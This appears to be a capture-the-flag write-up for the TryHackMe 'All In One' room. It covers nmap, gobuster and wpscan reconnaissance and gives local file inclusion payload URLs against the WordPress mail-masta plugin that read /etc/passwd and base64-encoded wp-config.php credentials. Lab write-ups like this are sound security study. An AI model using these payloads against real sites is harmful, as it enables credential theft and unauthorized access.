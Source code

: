 # All In One / Tryhackme

## Initial reconnaissance
1. nmap scan - (nmap -sC -sV IP)
2. gobuster
3. wpscan - wpscan --url url -e ap
   
   wpscan is scanning tool for wordpress. According scan results there is two plugins ( mail-masta and reflex-gallery) which is vulnerable to these attacks:
   
   - LFI
   - SQLi

--------------------------------------------

## User.txt

### Method 1: LFI

1. Mail-masta LFI

   PoC: http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
   
   source: https://www.exploit-db.com/exploits/40290
   
2. Getting wp-config.php via LFI: http://ip/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
   - what is wp-config.php file?  The wp-config.php file is a WordPress core file that contains the necessary information to make your WordPress website operate, including: MySQL connection settings, WordPress salts and keys, database prefix.
   - for more information: https://ithemes.com/blog/wordpress-wp-config-php-file-explained/
   - after getting password I logged in as www-data user, then found password of main user with find command based on user ownership in files.
